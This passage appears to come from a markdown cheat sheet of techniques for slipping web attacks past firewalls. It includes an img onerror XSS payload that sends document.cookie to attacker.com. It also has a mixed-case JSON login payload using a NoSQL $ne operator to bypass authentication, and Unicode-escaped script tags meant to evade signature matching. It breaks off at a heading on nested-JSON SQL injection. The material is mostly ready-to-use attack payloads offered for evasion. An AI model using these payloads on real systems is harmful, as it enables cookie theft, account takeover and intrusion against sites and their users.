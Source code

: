 ### **3️⃣ Event-Based Payload Execution (Bypassing Script Filters)**  

>If `script` tags are blocked, use **event-based execution**.  

#### **🚀 Example: OnError XSS Bypass**  

```html
<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">
```  
 
- WAFs **may not block `onerror` event handlers**.  

----

# JSON Input Obfuscation for WAF Bypass  

>JSON-based APIs may **validate inputs** strictly, but attackers can **obfuscate payloads**.  

### **1️⃣ JSON Key-Value Case Manipulation (Evasion)**  

>Some WAFs match **JSON key names** exactly. Attackers can **modify case**.

#### **🚀 Mixed-Case Key Evasion**  

```json
{
  "UsErNaMe": "admin",
  "pAsSwOrD": { "$ne": "" }  // Bypass NoSQL authentication
}
```  
  
- WAFs **may not normalize key names**.  

### **2️⃣ JSON Unicode Obfuscation (Breaking Signature Matching)**  

>Instead of using normal text, attackers use **Unicode escapes**.  

#### **🚀 Unicode Encoding Attack**  

```json
{
  "username": "\u0061\u0064\u006d\u0069\u006e",
  "password": "\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003ealert(1)\u003c/script\u003e"
}
```  
 
- WAFs **fail to recognize** `<script>alert(1)</script>`.  

### **3️⃣ JSON Nesting to Obfuscate SQL Injection**  

>Instead of **direct injection**, use **deeply nested JSON objects**.  

#### **🚀 Nested JSON SQL Injection**  
